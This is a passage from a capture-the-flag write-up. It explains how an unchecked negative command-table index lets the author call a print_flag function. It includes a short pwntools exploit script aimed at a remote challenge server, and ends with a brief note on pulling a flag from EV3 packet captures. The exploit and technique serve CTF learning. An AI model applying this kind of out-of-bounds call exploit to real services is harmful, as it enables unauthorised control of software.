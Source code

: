 Also, there is a `print_flag` function at `0x400104`. Since there is no restriction in number, we can do arbitrary call via `((void (__fastcall *)(unsigned __int8 *, _QWORD, __int64))cmdtb[cmd])`. Since the value is in stack with ASLR. We can first set `cmd` to our input `idx`, which contains the address of `print_flag`. Then, the flag will be printed.

THe final exploit:
```python
from pwn import *
r = remote('52.195.11.111', 6666)
 
# -32 is the offset to idx, jump to it
r.sendlineafter('cmd> ', '-32')

# send the address of print flag
r.sendlineafter('index: ', p64(0x400104))
 
# print flag will be called
print r.recvall()
```

# Misc

## EV3 Basic

In package from host to controller, I found some chars which match the given partial flag in each package. Group them together you can find the flag.